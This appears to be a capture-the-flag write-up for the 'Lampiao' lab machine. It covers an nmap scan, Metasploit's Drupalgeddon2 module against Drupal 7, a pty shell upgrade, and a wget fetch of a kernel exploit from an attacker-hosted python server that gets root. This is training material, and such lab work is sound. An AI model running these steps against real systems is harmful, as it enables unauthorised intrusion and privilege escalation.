




# Lampiao
Points - 5  
Difficulty - Easy
---

As always we first start with scanning the  ip address      
```
$ nmap -A -p- ip_address
```
The full port scan shows a Drupal interface on port 1898



Lets fire up metasploit and check if there's an exploit     
```
msf6 > search drupal 7
```
From googling Drupal 7 exploit we find that there's an exploit called **Drupalgeddon2**
Select the one with Drupalgeddon2 => **exploit/unix/webapp/drupal_drupalgeddon2**       
You can check the requirements needed by just typing in     
```
show OPTIONS
```
For setting the parameters use
```
set parameter ip_address/port
```
Set the RHOSTS, RPORTS correctly and don't forget that for LHOSTS you have to enter the ip from the vpn pack and finally enter **exploit** or **run** for metasploit to run the exploit         



Use the below command to get a python interactive shell
```
python -c "import pty; pty.spawn(\"/bin/bash\")"
```
Navigating to home we see a directory named tiago where we can find the user flag     

I checked the kernel version on the system      

      

Googling an exploit for the version I found one on [exploit-db](https://www.exploit-db.com/exploits/40847). I downloaded this file onto my local computer and hosted a python server in that directory to wget onto the target machine.     

I know downloading directly onto the taget machine would have been easier but for some reason it was not connecting to the exploit-db site.

You can setup a local python server using
```
$ python3 -m http.server port
```

Download the file onto the /tmp directory
```
wget http://ip_address:port/40847.cpp
```

Follow the instructions in the C file to run the exploit.   

After compiling and running the file, voila we are root.
The command to compile is given in the exploit cpp file, use that.



Navigate to the root and home directory to find the flags.